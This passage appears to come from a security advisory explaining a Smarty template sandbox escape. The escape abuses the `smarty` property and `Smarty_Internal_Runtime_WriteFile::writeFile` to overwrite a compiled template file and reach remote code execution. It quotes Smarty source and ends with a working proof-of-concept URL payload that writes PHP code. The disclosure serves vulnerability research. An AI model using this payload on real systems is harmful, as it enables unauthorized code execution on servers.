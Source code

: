 The issue is here is that an attacker can access the `smarty` or `parent` property that will give them access to a Smarty instance.

### Exploitation

#### The Static Method Call Technique

So now that an attacker can access the `smarty` property, they can simply pass it as the third argument to the `Smarty_Internal_Runtime_WriteFile::writeFile` which will write an arbitrary file to disk (write what where primitive). This is the same technique performed by [James Kettle](https://www.youtube.com/watch?v=3cT0uE7Y87s) in 2015.

Having the ability to write arbitrary files to a targets filesystem is almost a guaranteed win but an attacker can never be too sure. Environments can vastly differ and writable directories in the webroot may not exist, .htaccess maybe blocking access to backdoors, etc.

Given that context, I came up with an application specific technique in which this vulnerability can be exploited for direct remote code execution without the need for these environment factors.

If using the `string:` resource, the `process` method inside of `Smarty_Template_Compiled` will be called which includes the compiled template file.

```php
    public function process(Smarty_Internal_Template $_smarty_tpl)
    {
        $source = &$_smarty_tpl->source;
        $smarty = &$_smarty_tpl->smarty;
        if ($source->handler->recompiled) {
            $source->handler->process($_smarty_tpl);
        } elseif (!$source->handler->uncompiled) {
            if (!$this->exists || $smarty->force_compile
                || ($_smarty_tpl->compile_check && $source->getTimeStamp() > $this->getTimeStamp())
            ) {
                $this->compileTemplateSource($_smarty_tpl);
                $compileCheck = $_smarty_tpl->compile_check;
                $_smarty_tpl->compile_check = Smarty::COMPILECHECK_OFF;
                $this->loadCompiledTemplate($_smarty_tpl);
                $_smarty_tpl->compile_check = $compileCheck;
            } else {
                $_smarty_tpl->mustCompile = true;
                @include $this->filepath; // overwrite this file and then include!
```

It's possible we can dynamically get access to this `filepath` property of the `Smarty_Template_Compiled` class so that we can use it as a location for the file write.

The nice thing about this technique is that the temporary location *must* be writable for the resource to work and it's platform independant. 

###### Proof of Concept

Using PHP's built in webserver and the supplied page from [Default Sandbox](#default-sandbox) as the target, run the following poc *twice*.

```txt
http://localhost:8000/page.php?poc=string:{$s=$smarty.template_object->smarty}{$fp=$smarty.template_object->compiled->filepath}{Smarty_Internal_Runtime_WriteFile::writeFile($fp,"<?php+phpinfo();",$s)}
```
